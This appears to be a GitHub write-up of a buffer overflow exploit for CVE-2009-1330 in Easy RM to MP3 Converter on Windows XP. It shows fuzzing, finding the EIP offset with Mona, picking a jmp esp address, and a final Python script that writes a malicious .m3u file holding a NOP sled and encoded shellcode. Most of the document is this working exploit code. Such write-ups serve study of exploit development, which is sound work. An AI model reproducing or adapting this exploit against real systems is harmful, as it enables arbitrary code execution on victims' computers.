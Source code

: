 # Easy RM to MP3 Converter 2.7.3.700 (.m3u) File WinXP Sp2 Buffer Overflow Exploit

-   cve details: [CVE-2009-1330](https://www.cvedetails.com/cve/CVE-2009-1330/)
-   Target: Easy RM to MP3 Converter 2.7.3.700
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I opened target program and checked its. I understood the program takes input from user in file types like: ra, m3u, pl, ... . For load file use Load button. For check program vulnerability I made a python file :

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close() 
```
    
After load exploit.m3u, program handle its:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/1.jpg)

I add more "A" and again check it:

```source-shell
    exploit='A'*5000
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

Program closed witout show error and .... . I understood target maybe vulnerability.I started develop a exploit for it. I want show calce.

I run Immunity Debugger and attached target to debugger. I need find EIP and for it, I need find how many "A" input to target.I used Mona for create pattern :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/2.JPG)

Mona create pattern file in this path: Immunity Debugger path/pattern.txt . Open it and copy ASCII section to new file like exploit.m3u . Now I load this file to target that attached in Immunity. Target is closed,and now I go to Immunity and copy EIP and with Mona command (!mona po 78533778) , I find exactlly location.

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/3.JPG)

Now I know number "A" (14752) and for check it , I change my exploit to below. If EIP show 42424242 ,location is true :

```source-shell
    exploit='A'*14752 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

After load, I show program handle it and the location found by Mona was incorrect. 

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/4.JPG)

I using manully approch, change number of "A" to find location. afte check some number , I find 26064. So my exploit changed to :

```source-shell
    exploit='A'*26064 + "B"*4
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/5.JPG)

Now I need added my shellcode and find my shellcode's location and pass it to EIP. I change my exploit to this:

```source-shell
    exploit='A'*26064 + "B"*4 + "C"*100
    f=open("exploit.m3u","w")
    f.write(exploit)
    f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/6.JPG)

I load file in target and check it in Immunity. I see my shellcode load in Stack and I only need find a command point to stack like "jmp esp" ,also I see a jump occur and 4"C" does not run, so if I add shellcode to this,My shellcode not execute. For solved first problem , I load program in Immunity and RightClick>Search for > All commands in All modules and so type jmp esp and select a result :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/7.JPG)

I select this address (7c9d30d7). I add this address (reverse) to exploit and so add shellcode :


```source-shell
exploit= "A" * 26064 + "\xD7\x30\x9D\x7C" +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
    "\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
    "\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
    "\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
    "\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
    "\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
    "\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
    "\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
    "\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
    "\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
    "\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
    "\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
    "\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
    "\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
    "\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
    "\xf3\x07")
f=open("exploit.m3u","w")
f.write(exploit)
f.close()
```

And finally for solved second problem,I use NOP sed. my exploit in final mode:

```source-shell
exploit= "A" * 26064 + "\xD7\x30\x9D\x7C"+ "\x90"*8 +(
    "\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
    "\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
    "\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
    "\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
    "\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
    "\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
    "\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
    "\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
    "\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
    "\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
    "\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
    "\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
    "\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
    "\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
    "\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
    "\xf3\x07")
    
f=open("exploit.m3u","w")
f.write(exploit)
f.close()
```


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1330_Buffer%20Overflow%20Exploit/images/8.JPG)



